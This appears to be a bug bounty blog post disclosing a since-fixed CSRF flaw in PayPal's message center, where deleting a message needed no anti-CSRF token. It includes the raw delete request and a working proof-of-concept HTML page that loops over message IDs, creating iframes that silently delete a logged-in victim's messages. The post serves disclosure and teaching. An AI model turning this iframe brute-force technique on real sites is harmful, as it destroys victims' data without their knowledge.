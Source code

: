 ```yaml
---
layout: post
title:  "I could’ve deleted all SMC messages. using Brute Force Technique – PayPal"
---
```


While playing around with the SMC platform at paypal.com, I came across an interesting endpoint that doesn’t include a CSRF token within its request when you delete a message. Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. With a little help from social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing. If the victim is a normal user, in this case, a CSRF attack can force the user to delete all of his messages without the victim’s notice.

### PayPal Message Center [SMC]:

PayPal has created a Message Center for its customers like most financial institutions and eBay provides. The Message Center gives PayPal the ability to communicate with you within the framework of a new mailbox inside your PayPal account. It also provides you with a way to validate customer service emails that you may consider suspicious. This way, you can trust that the communications you receive are from PayPal itself. How does it work?

Emails from PayPal will be put into the Message Center. A notification will be sent to let you know that you have a message.

1. Open https://www.paypal.com/ma/selfhelp/contact/email/t_s
2. At the middle, select which issue/topic do you want to ask about.
3. Click “SEND”, then wait for them to reply with a solution/information

### The Interesting HTTP-Request:

```
GET /smc/delete-msg/?message_id=38223655 HTTP/1.1
Host: www.paypal.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: https://www.paypal.com/smc/customer
Cookie: **********************************************************
Connection: close
```

Apparently, there’s no CSRF token right there but there’s a message_id which definitely could replace the CSRFtoken on its job, due to its difficulty to be guessed.

## The Attack scenario/Proof of Concept:

The only way that could let us find the right message_id is to use a dynamic functionality written by JavaScript to brute force the message_id through the URL.

```
<html>
<body>
<div id="elementID"></div>
<script>
   for (var i=38223650; i<=38223800;i++) {
    var url = "https://www.paypal.com/smc/delete-msg/?message_id=";
      url = url + String(i);
      frame = document.createElement('iframe');
      frame.setAttribute('src', url);
      frame.setAttribute('width', '30px');
      frame.setAttribute('height', '50px');
      (document.getElementById('elementID')).appendChild(frame);
   }
</script>
</body>
</html>
```

Now, we just have to save this file as an HTML file and upload it to our server in order to send it to the victim. When the victim accesses this page, it will create a few new iframes with the SRC attribute set to:


```
https://www.paypal.com/smc/delete-msg/?message_id=38223650
https://www.paypal.com/smc/delete-msg/?message_id=38223651
https://www.paypal.com/smc/delete-msg/?message_id=38223652
https://www.paypal.com/smc/delete-msg/?message_id=38223653
https://www.paypal.com/smc/delete-msg/?message_id=38223654
https://www.paypal.com/smc/delete-msg/?message_id=38223655
https://www.paypal.com/smc/delete-msg/?message_id=38223656
```

So, what’s happening here? When it creates an iframe of https://www.paypal.com/smc/delete-msg/?message_id= it’s going to use the number 38223650 as the value of the message_id parameter and submit the URL. Then it’s going to keep incrementing the value of the message_id by one more digit +1 until it covers all the messages inside the inbox/sent folder. I could also make this script start from 0 to 9999999.. which means there’s a high chance that the script will cover all valid message_id inside the victim’s account.

![](https://github.com/aelmokhtar/ayoubmokhtar.github.io/raw/master/_posts/images/post-1-image001.png)

The idea behind creating a new iframe is preferable because it takes less memory to process so chances of a crash are also less. And if it DOES the victim won’t control the browser until the script is done. Otherwise, the IFrames keep processing while the victim is waiting for the browser to be stabilized.


## How it got FIXED:

The PayPal security team resolved this issue using the most popular implementation to prevent the CSRF vulnerability, which is a secret/random token that is associated with a particular user called Anti-CSRF, then included it within every sensitive request that requires a server-side verification before authorizing any sensitive action.

![](https://github.com/aelmokhtar/ayoubmokhtar.github.io/raw/master/_posts/images/post-1-image002.png)

### Timeline:

- 15th of January 2018 – Bug reported.
- 24th of January 2018 – First response from PayPal, More Information Required –Researcher.
- 23rd of March 2018 – The vulnerability is fixed now.
